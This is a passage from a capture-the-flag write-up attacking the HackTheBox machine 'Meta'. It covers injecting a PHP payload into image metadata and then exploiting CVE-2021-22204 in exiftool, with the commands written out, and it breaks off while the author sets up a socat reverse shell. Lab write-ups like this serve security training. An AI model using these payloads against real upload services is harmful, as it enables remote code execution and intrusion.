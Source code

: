 In here, we found `/uploads/` directory in `/metaview/`, but it just returns HTTP status "404 Not Found". So no index listing. I also tried to read the uploaded image, but no dice, maybe the filename is renamed.

## Initial Foothold

Whenever I deal with a file upload functionality, I always look for arbitrary file upload. In this case however, we couldn't find the uploaded image.

So, **maybe we can inject PHP code in the metadata's comment? Or OS command injection?**

Based on my experience, the web application is very likely **using `exiftool` to read the uploaded image's metadata**.

**Maybe, we could try to inject PHP code in the metadata's comment:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|15:04:45(HKT)]
└> exiftool -Comment="<?php system('id'); ?>" ~/Downloads/rickroll.jpg
    1 image files updated
```

**Then upload it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Meta/images/Pasted%20image%2020230816152320.png)

View source page:

```html
Comment                         : <?php system('id'); ?>
```

Nope... That doesn't work.

After Googling "file upload image exiftool metadata vulnerability", I found **this GitHub repository: [JPEG_RCE](https://github.com/OneSecCyber/JPEG_RCE).**

In this repository, it has a `evil.config` Exiftool configuration file, which exploits CVE-2021-22204.

> "ExifTool 7.44 to 12.23 has a bug in the DjVu module which allows for arbitrary code execution when parsing malicious images."

**Let's clone the repository and modify the image to our evil payload!**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|15:20:09(HKT)]
└> exiftool -config /opt/JPEG_RCE/eval.config ~/Downloads/rickroll.jpg -eval='system("id")'    
    1 image files updated
```

**Upload it again:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Meta/images/Pasted%20image%2020230816152604.png)

**It worked! Let's get a reverse shell!**

- Hosting `socat` binary via Python `http.server` module: (Using `socat` for fully interactive shell)

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|15:27:45(HKT)]
└> file /opt/static-binaries/binaries/linux/x86_64/socat 
/opt/static-binaries/binaries/linux/x86_64/socat: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|15:27:54(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/linux/x86_64 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
